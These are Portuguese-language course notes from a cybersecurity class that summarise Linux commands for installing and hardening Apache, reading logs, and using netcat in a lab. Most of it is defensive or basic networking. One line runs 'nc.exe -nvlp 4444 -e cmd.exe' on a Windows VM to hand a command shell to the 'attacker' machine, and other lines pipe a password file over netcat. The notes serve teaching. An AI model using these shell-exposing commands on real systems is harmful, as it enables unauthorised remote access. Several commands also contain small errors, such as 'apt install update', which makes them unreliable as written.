 # FIAP-Cyber

#### Resumo colega: https://www.notion.so/flaviovicentin/Cybersecurity-b35d9c73f60249cdb12c28dc66c0d06a

## Resumo de Comandos

### Updates/Installs
> apt install update
> apt install upgrade
> apt install apache2 apache2-utils -y
> apt install net-tools

- Iniciar o servidor:
service apache2 start

### Notes CP01

- Entrar no diretório padrão do servidor html:
cd /var/www/html

- Vamos renomear o index.html para copial.html:
mv index.html copia.html

- Gerar a primeira falha de segurança no webservice:
- Vamos criar arquivos na pasta padrão do webservice e ver eles exibidos do lado do cliente:
touch bkp.txt cadastro.php

- criar o index.html, com o editor de texto do Linux – nano, e ver o que acontece com o webservice:
nano index.html

*RESOLVENDO PROBLEMAS DE SEGURANÇA*

1. OCULTAR AS PASTAS PARA OS CLIENTES:
nano /etc/apache2/apache2.conf

- Remover o INDEXES para não exibir mais as pastas disponíveis para os clientes.

- Restart o webservice apache:
service apache2 restart

- Alterar a configuração do banner no apache:
nano /etc/apache2/conf-enabled/security.conf

- Por padrão o apache vem com o token como o Sistema Operacional (SO) deseja e a assinatura online. 
- Mas por medida de segurança, devemos alterar para o modo de Produção.:
Trocar de "ServerTokens OS" para "ServerTokens Prod" e desligar a assinatura "ServerSignature Off"

- Subir o servidor python na porta 8080
python3 –m http.server 8080

VER LOGs do SERVIDOR APACHE
1. No apache, ele existe o caminho padrão das pastas
cd /var/log/apach2
ls
8. Vamos monitorar o servidor e ver como ele vai agir.
tail –f access.log

### Instalação e Configuração

- Instalar o Netcat:
apt install netcat

- Iniciar um servidor HTTP em Python na porta 8080:
python3 -m http.server 8080

### Comandos Básicos

- Estabelecer uma conexão TCP com um host:
nc -v 192.168.1.10 8080

- Mostrar informações detalhadas sobre as conexões:
OPTIONS / HTTP/1.0
GET / HTTP/1.1

- Mostrar as conexões de rede:
netstat -nltp

### Manter Conexão com o Servidor

- Enviar uma requisição OPTIONS e manter a conexão:
printf "OPTIONS / HTTP/1.0\r\n\r\n" | nc 192.168.1.10 80

- Verificar o IP do webserver em Python:
ip -br -c a

### Chat Simples

- Abrir uma porta para o servidor:
nc -lvp 1234

- Interagir com a porta do servidor:
nc -v 192.168.1.10 1234

### Transferência de Arquivos

- Criar e enviar um arquivo do servidor para o cliente:
echo "P4sswd" > senha.txt
cat senha.txt | nc -lvp 1234
nc -v 192.168.1.10 1234 > passwd.txt

- Exibir o hash MD5 do arquivo:
md5sum senha.txt


### Transferência de Executáveis

- Transferir o arquivo nc.exe para uma máquina Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444


- Abrir uma porta no lado do cliente para executar o nc.exe e conectar à máquina do atacante:
nc.exe -nvlp 4444 -e cmd.exe

Certifique-se de adaptar os endereços IP e portas conforme necessário para sua configuração.

### Comandos

- Criação de chat simples (servidor e cliente precisam estar na mesma rede):
nc -lvp 1234
nc -v 192.168.1.10 1234

- Transferir o nc.exe para uma VM Windows:
python3 -m http.server 1234
nc -nv 192.168.1.30 4444

### Enviar Arquivo entre Três Máquinas

Kali > VM01 > VM02

- No Kali, executar o seguinte comando no arquivo desejado:,
nc -l -p 1234 > video.avi

- Na VM01, receber o arquivo da máquina Kali e disponibilizar para a VM02:
nc -v 192.168.1.10 1234 | nc -l -p 4321





